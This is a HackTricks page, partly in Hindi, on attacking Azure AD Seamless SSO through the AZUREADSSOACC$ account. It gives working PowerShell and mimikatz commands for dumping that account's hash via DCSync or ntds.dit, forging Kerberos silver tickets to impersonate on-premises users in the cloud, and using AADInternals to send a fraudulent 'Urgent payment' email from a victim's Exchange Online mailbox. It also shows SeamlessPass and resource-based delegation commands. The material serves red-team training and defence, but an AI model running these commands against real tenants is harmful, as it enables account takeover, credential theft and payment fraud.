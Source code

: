 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उपयोगकर्ताओं को साइन इन करता है जब वे अपने कॉर्पोरेट नेटवर्क से जुड़े कॉर्पोरेट उपकरणों पर होते हैं**। जब सक्षम किया जाता है, **उपयोगकर्ताओं को Azure AD में साइन इन करने के लिए अपने पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आमतौर पर, यहां तक कि अपने उपयोगकर्ता नाम भी टाइप करने की आवश्यकता नहीं होती है। यह सुविधा आपके उपयोगकर्ताओं को आपके क्लाउड-आधारित अनुप्रयोगों तक आसान पहुंच प्रदान करती है बिना किसी अतिरिक्त ऑन-प्रिमाइसेस घटकों की आवश्यकता के।

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

बुनियादी रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **एक ऑन-प्रिम डोमेन से जुड़े पीसी पर होते हैं**।

यह [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) दोनों द्वारा समर्थित है।

डेस्कटॉप SSO **प्रमाणीकरण के लिए Kerberos** का उपयोग कर रहा है। जब कॉन्फ़िगर किया जाता है, Azure AD Connect एक **कंप्यूटर खाता बनाता है जिसे AZUREADSSOACC`$`** कहा जाता है ऑन-प्रिम AD में। `AZUREADSSOACC$` खाते का पासवर्ड **कॉन्फ़िगरेशन के दौरान Azure AD को स्पष्ट पाठ के रूप में भेजा जाता है**।

**Kerberos टिकट** **पासवर्ड के NTHash (MD4)** का उपयोग करके **एन्क्रिप्ट** किए जाते हैं और Azure AD भेजे गए पासवर्ड का उपयोग करके टिकटों को डिक्रिप्ट करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) को उजागर करता है जो Kerberos **टिकट** स्वीकार करता है। डोमेन-जोड़े गए मशीन का ब्राउज़र SSO के लिए इन टिकटों को इस एंडपॉइंट पर अग्रेषित करता है।

### On-prem -> cloud

उपयोगकर्ता का **पासवर्ड** **`AZUREADSSOACC$` कभी नहीं बदलता**। इसलिए, एक डोमेन प्रशासक **इस खाते के हैश को समझौता** कर सकता है, और फिर इसका उपयोग **सिल्वर टिकट बनाने के लिए** Azure से **किसी भी ऑन-प्रिम उपयोगकर्ता को सिंक करने** के लिए कर सकता है:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
आप अब हैश के साथ **सिल्वर टिकट उत्पन्न** कर सकते हैं:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Initiate the Browser:** Mozilla Firefox should be launched.
2. **Configure the Browser:**
* Navigate to **`about:config`**.
* Set the preference for [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) to the specified [values](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Access the Web Application:**
* Visit a web application that is integrated with the organization's AAD domain. A common example is [Office 365](https://portal.office.com/).
4. **Authentication Process:**
* At the logon screen, the username should be entered, leaving the password field blank.
* To proceed, press either TAB or ENTER.

{% hint style="success" %}
यह MFA को बायपास नहीं करता है यदि सक्षम है
{% endhint %}

#### Option 2 without dcsync - SeamlessPass

It's also possible to perform this attack **without a dcsync attack** to be more stealth as [explained in this blog post](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). For that you only need one of the following:

* **A compromised user's TGT:** Even if you don't have one but the user was compromised, you can get one using fake TGT delegation trick implemented in many tools such as [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) and [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: If you have the KRBTGT key, you can create the TGT you need for the attacked user.
* **A compromised user’s NTLM hash or AES key:** SeamlessPass will communicate with the domain controller with this information to generate the TGT
* **AZUREADSSOACC$ account NTLM hash or AES key:** With this info and the user’s Security Identifier (SID) to attack it's possible to create a service ticket an authenticate with the cloud (as performed in the previous method).

Finally, with the TGT it's possible to use the tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) with:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Firefox को seamless SSO के साथ काम करने के लिए सेट करने की अतिरिक्त जानकारी [**इस ब्लॉग पोस्ट में**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) मिल सकती है।

#### ~~क्लाउड-केवल उपयोगकर्ताओं के लिए Kerberos टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि Active Directory प्रशासकों के पास Azure AD Connect तक पहुंच है, तो वे **किसी भी क्लाउड-उपयोगकर्ता के लिए SID सेट कर सकते हैं**। इस तरह Kerberos **टिकट** **क्लाउड-केवल उपयोगकर्ताओं के लिए भी बनाए जा सकते हैं**। एकमात्र आवश्यकता यह है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
क्लाउड-केवल प्रशासनिक उपयोगकर्ताओं का SID अब **Microsoft द्वारा अवरुद्ध** है।\
जानकारी के लिए देखें [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### ऑन-प्रेम -> क्लाउड रिसोर्स आधारित सीमित प्रतिनिधित्व के माध्यम से <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

कोई भी जो इस खाते में कंप्यूटर खातों (`AZUREADSSOACC$`) का प्रबंधन कर सकता है, वह **खाते पर एक संसाधन आधारित सीमित प्रतिनिधित्व को कॉन्फ़िगर कर सकता है और इसे एक्सेस कर सकता है**।
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: मैं आपके क्लाउड में हूँ, सभी के ईमेल पढ़ रहा हूँ - Active Directory के माध्यम से Azure AD हैक करना](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
